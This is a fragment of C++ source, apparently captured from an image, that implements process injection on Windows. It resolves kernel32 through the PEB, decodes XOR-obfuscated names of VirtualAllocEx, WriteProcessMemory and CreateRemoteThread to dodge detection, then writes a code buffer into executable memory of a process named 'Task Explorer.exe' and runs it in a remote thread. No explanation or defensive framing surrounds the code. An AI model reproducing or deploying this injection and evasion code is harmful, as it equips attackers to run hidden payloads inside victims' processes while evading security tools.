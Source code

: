 ```cpp
        int i;
        for (i = 0; i < module->BaseDllName.Length / sizeof(WCHAR) && i < sizeof(baseDllName) - 1; i++) {
            baseDllName[i] = (char)module->BaseDllName.Buffer[i];
        }
        baseDllName[i] = '\0';

        if (_stricmp(baseDllName, "kernel32.dll") == 0) {
            k32baseAddr = (HMODULE)module->DllBase;
        }

        lEntry = lEntry->Flink;
    } while (lEntry != &peb->Ldr->InLoadOrderModuleList);

    if (k32baseAddr) {
		std::wstring processName = L"Task Explorer.exe"; // Replace with your process name
		DWORD pid = GetProcessIdByName(processName);
        LPVOID pRemoteCode = NULL;
        HANDLE hThread = NULL;
        if (pid) {
            printf("Process ID = %d \n", pid);
            //try to open target process
            HANDLE hProcess = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION |
                PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
                FALSE, pid);

            if (hProcess != NULL) {
                unsigned char sGPA[] = { 0x28, 0x03, 0x12, 0x35, 0x1c, 0x1c, 0x0a, 0x37, 0x01, 0x14, 0x13, 0x0b, 0x17, 0x12 };
                unsigned char sLLA[] = { 0x23, 0x09, 0x07, 0x01, 0x22, 0x1a, 0x0b, 0x04, 0x04, 0x02, 0x18, 0x2f };
                LPCSTR Z = DAndP(sGPA, sizeof(sGPA), key, k_len);
                LPCSTR X = DAndP(sLLA, sizeof(sLLA), key, k_len);
                ptrGetProcAddress = (GETPROCADDRESS)GetProcAddressKernel32(k32baseAddr, Z);
                ptrLoadLibraryA = (LOADLIBRARYA)GetProcAddressKernel32(k32baseAddr, X);
                HMODULE kernel32Base = ptrLoadLibraryA("kernel32.dll");
                unsigned char sVAEx[] = { 0x39, 0x0f, 0x14, 0x11, 0x1b, 0x12, 0x05, 0x37, 0x09, 0x1c, 0x0e, 0x0d, 0x21, 0x19 };
                unsigned char sWPM[] = { 0x38, 0x14, 0x0f, 0x11, 0x0b, 0x23, 0x1b, 0x19, 0x06, 0x15, 0x12, 0x1d, 0x29, 0x04, 0x02, 0x09, 0x14, 0x1c };
                unsigned char sCRT[] = { 0x2c, 0x14, 0x03, 0x04, 0x1a, 0x16, 0x3b, 0x13, 0x08, 0x1f, 0x15, 0x0b, 0x30, 0x09, 0x1d, 0x03, 0x07, 0x01 };
                LPCSTR A = DAndP(sVAEx, sizeof(sVAEx), key, k_len);
                LPCSTR B = DAndP(sWPM, sizeof(sWPM), key, k_len);
                LPCSTR C = DAndP(sCRT, sizeof(sCRT), key, k_len);
                pVAEx = (VAExType)ptrGetProcAddress(kernel32Base, (LPCSTR)A);
                pRemoteCode = pVAEx(hProcess, NULL, p_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
                pWPM = (WPMType)ptrGetProcAddress(kernel32Base, (LPCSTR)B);
                pWPM(hProcess, pRemoteCode, (PVOID)code, (SIZE_T)p_len, (SIZE_T*)NULL);
                pCRT = (CRTType)ptrGetProcAddress(kernel32Base, (LPCSTR)C);
                hThread = pCRT(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteCode, NULL, 0, NULL);

                if (hThread != NULL) {
                    WaitForSingleObject(hThread, 500);
                    CloseHandle(hThread);
                    return 0;
                }

                return -1;
                CloseHandle(hProcess);
            }

```